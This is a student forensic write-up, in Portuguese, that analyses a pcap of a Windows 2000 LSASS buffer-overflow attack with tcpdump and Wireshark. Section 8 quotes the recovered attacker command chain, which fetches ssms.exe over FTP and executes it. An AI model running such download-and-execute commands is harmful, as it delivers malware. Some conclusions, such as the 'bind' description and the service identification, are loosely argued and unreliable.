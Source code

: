 # traffic-analysis

My traffic analysis for the computational Security class at UFPR

vamos utilizar o tcpdump para ler o arquivo `.pcap` com o tráfego de rede e responder as perguntas:

1. Quais endereços IP/hosts estão envolvidos? (1pt)
2. O que você consegue descobrir sobre a máquina atacante (ex.: onde ela está localizada)? (1pt)
3. Quantas *sessões* TCP o arquivo possui? (1pt)
4. Quanto tempo o ataque levou? (1pt)
5. Qual sistema operacional foi alvo do ataque? Qual o serviço atacado? Qual a vulnerabilidade explorada? (3pts)
6. Esboce graficamente uma visão geral das ações realizadas pelo atacante (considere a topologia de rede, os passos do ataque, os resultados). (3pts)
7. Que vulnerabilidade específica foi explorada (CVE, propriedades de segurança violadas, como ela ocorre, etc.)? (1pt)
8. O que a shellcode faz? Liste a shellcode (código). (4pts)
9. Você acha que um honeypot foi utilizado para se passar por vítima vulnerável? Justifique. (3pts)
10. Houve código malicioso envolvido? Se sim, qual o nome/rótulo do malware? (1pt)
11. Você acha que o ataque foi manual ou lançado de maneira automática? Justifique sua resposta. (1pt)

***

## 1. Quais endereços IP/hosts estão envolvidos? (1pt)

Para descobrir quais endereços IP/hosts estão envolvidos, podemos utilizar o comando

```bash
tcpdump -r attack-trace.pcap -n | awk '{print $3}' | sort | cut -d. -f1,2,3 | uniq
```

 para filtrar os endereços IP e hosts envolvidos no ataque. O resultado desse comando é:

`192.150.11.111 - Adobe Systems Inc`

`98.114.205.102 - pool-98-114-205-102.phlapa.fios`

***

## 2. O que você consegue descobrir sobre a máquina atacante (ex.: onde ela está localizada)? (1pt)

***

## 3. Quantas *sessões* TCP o arquivo possui? (1pt)

Para descobrir quantas sessões TCP o arquivo possui, podemos utilizar o comando

```bash
tcpdump -r attack-trace.pcap tcp[tcpflags]=='tcp-syn' -nn | wc -l
```

 para filtrar as sessões TCP e contar quantas sessões existem. Podemos ver que existem 5 sessões e o registro de cada uma delas é mostrado abaixo.

```bash
00:28:28.374595 IP 98.114.205.102.1821 > 192.150.11.111.445: Flags [S], seq 147554406, win 64240, options [mss 1460,nop,nop,sackOK], length 0
00:28:28.509145 IP 98.114.205.102.1828 > 192.150.11.111.445: Flags [S], seq 147846946, win 64240, options [mss 1460,nop,nop,sackOK], length 0
00:28:30.466428 IP 98.114.205.102.1924 > 192.150.11.111.1957: Flags [S], seq 152210861, win 64240, options [mss 1460,nop,nop,sackOK], length 0
00:28:33.457215 IP 192.150.11.111.36296 > 98.114.205.102.8884: Flags [S], seq 1545682588, win 5840, options [mss 1460,sackOK,TS val 4055633882 ecr 0,nop,wscale 7], length 0
00:28:34.516921 IP 98.114.205.102.2152 > 192.150.11.111.1080: Flags [S], seq 161784447, win 64240, options [mss 1460,nop,nop,sackOK], length 0
```

***

## 4. Quanto tempo o ataque levou? (1pt)

É simples descobrir quanto tempo o ataque levou, basta conferir o timestamp do primeiro e do último pacote do arquivo. Para isso, podemos utilizar o comando

```bash
tcpdump -r attack-trace.pcap -nn | head -n 1 | awk '{print $1}' && tcpdump -r attack-trace.pcap -nn | tail -n 1 | awk '{print $1}'
```

 que nos retorna o timestamp do primeiro e do último pacote do arquivo. O resultado desse comando é:

`00:28:28.374595`

`00:28:44.593813`

Portanto, o ataque levou cerca de 16 segundos.

***

## 5. Qual sistema operacional foi alvo do ataque? Qual o serviço atacado? Qual a vulnerabilidade explorada? (3pts)

Para descobrir qual sistema operacional foi alvo do ataque, precisamos analisar as assinaturas nos pacotes, vamos analisar o arquivo `.pcap` utilizando o wireshark.

Em um dos pacotes, é possível encontrar o seguinte texto:

`Native LAN Manager: Windows 2000 5.0`

Indicando que o SO alvo do ataque é o Windows 2000 na versão 5.0.

O serviço atacado foi o Active Directory, que é um serviço de diretório da Microsoft, que armazena informações sobre objetos em uma rede e disponibiliza essas informações a usuários e administradores dessa rede.

Podemos ver que o serviço atacado é o AD ( Active Directory ) pois, se analisarmos o frame de N° 33, podemos ver um padding de `\x31` que é o número 1 em hexadecimal.

A vulnerabilidade explorada foi um buffer overflow no serviço de AD. Podemos perceber isso pois, se filtrarmos os pacotes por `length` no wireshark e olharmos apenas para o primeiro tcp stream (`tcp.stream eq 1`) veremos que os os maiores pacotes contém diversos `NOPS` e, prováveis, paddings de `\x31`

***

## 6. Esboce graficamente uma visão geral das ações realizadas pelo atacante (considere a topologia de rede, os passos do ataque, os resultados). (3pts)

***

## 7. Que vulnerabilidade específica foi explorada (CVE, propriedades de segurança violadas, como ela ocorre, etc.)? (1pt)

Ao procurar por `windows 2000 Active Directory buffer overflow` no google, encontramos facilmente o `CVE-2003-0533` que é justamente uma vulnerabilidade de buffer overflow no serviço de AD do Windows 2000.
A principal propriedade de segurança violada foi a integridade, pois o atacante conseguiu executar um código arbitrário no sistema alvo.
A exploração ocorre mais especificamente no `lsass.exe`. Ele é responsável por fornecer pesquisas, autenticação e replicação de banco de dados do Active Directory.

Essa vulnerabilidade foi utilizada pelo worm `Sasser` na época.

***

## 8. O que a shellcode faz? Liste a shellcode (código). (4pts)

Ao analisar os frames do arquivo `.pcap` é possível encontrar, no frame `44` uma string contendo 'ms.exe'. Se seguirmos o stream tcp desse frame, podemos encontrar a shellcode que foi utilizada no ataque.

```bash
echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
ssms.exe
```

Ao que parece, essa shellcode faz o bind da porta `8884` em todas as interfaces de rede, faz o download do arquivo `ssms.exe` e o executa.

***

## 9. Você acha que um honeypot foi utilizado para se passar por vítima vulnerável? Justifique. (3pts)

Acredito que sim! Se seguirmos os tcp stream 3, conseguimos ver, ao fim, dos comandos `FTP` uma mensagem:

```text
220 NzmxFtpd 0wns j0
USER 1
331 Password required
PASS 1
230 User logged in.
SYST
215 NzmxFtpd
TYPE I
200 Type set to I.
PORT 192,150,11,111,4,56
200 PORT command successful.
RETR ssms.exe
150 Opening BINARY mode data connection
QUIT
226 Transfer complete.
221 Goodbye happy r00ting.
```

Devido à essa mensagem final `Goodbye happy r00ting` acredito que sim, um honeypot foi utilizado para se passar por vítima vulnerável.

***

## 10. Houve código malicioso envolvido? Se sim, qual o nome/rótulo do malware? (1pt)

O código malicioso envolvido foi aquele utilizado no Shellcode, um bind shell para executar comandos via `FTP` e fazer o download de um arquivo.

***

## 11. Você acha que o ataque foi manual ou lançado de maneira automática? Justifique sua resposta. (1pt)

Acredito que o ataque foi lançado de maneira automática, visto que o worm `Sasser` utilizava essa vulnerabilidade para se espalhar pela rede.

***

## Autores

- Vinícius Fontoura de Abreu (GRR20206873)
- Guiusepe Oneda Dal Pai (GRR20210572)
